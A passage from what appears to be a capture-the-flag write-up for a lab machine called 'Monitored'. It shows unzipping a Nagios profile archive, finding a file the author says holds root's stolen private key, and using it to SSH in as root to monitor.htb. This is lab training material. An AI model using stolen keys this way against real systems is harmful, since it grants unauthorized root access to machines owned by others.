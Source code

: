 
Now we can unzip this file with the following command:

```
unzip profile.zip
```

![Root access](/assets/img/Monitored/Monitored_16.png)

Then when digging into the file structure we can see that **./profile-1705446030/nagios-logs/** directory contains the **nagios.txt** file. This is the file we replaced with the private key of the root user. To use this  key we need to first fix its permissions like so:

```bash
chmod 600 nagios.txt
```

Then we can use this file to authenticate as root to the machine

```bash
ssh -i ./nagios.txt root@monitor.htb
```
